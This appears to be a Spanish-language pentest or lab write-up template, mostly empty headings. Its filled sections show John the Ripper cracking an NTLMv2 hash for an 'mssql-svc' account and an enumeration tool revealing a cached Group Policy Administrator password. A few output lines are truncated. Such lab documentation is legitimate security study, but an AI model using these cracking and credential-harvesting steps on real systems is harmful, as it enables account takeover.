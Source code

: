 ##### Manual



##### Nombre de herramienta



## Explotación

### Tipo de explotación

#### Pasos previos | Preparación



#### Ejecución

```bash
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt mssql_svc.hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
corporate568     (mssql-svc)
1g 0:00:00:02 DONE (2023-04-24 23:01) 0.3846g/s 3446Kp/s 3446Kc/s 3446KC/s correforenz..cornamuckla
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

## Post Explotación

### Enumeración



### Escalación de privilegios

```powershell
͹ Cached GPP Passwords

C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml

C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
    Found C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
rName: Administrator
    NewName: [BLANK]
    cPassword: MyUnclesAreMarioAndLuigi!!1!
    Changed: 2019-01-28 23:12:48
    Found C:\Documents and Settings\All Users\Application Data\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
    UserName: Administrator
    NewName: [BLANK]
    cPassword: MyUnclesAreMarioAndLuigi!!1!
-28 23:12:48 2019-01
```
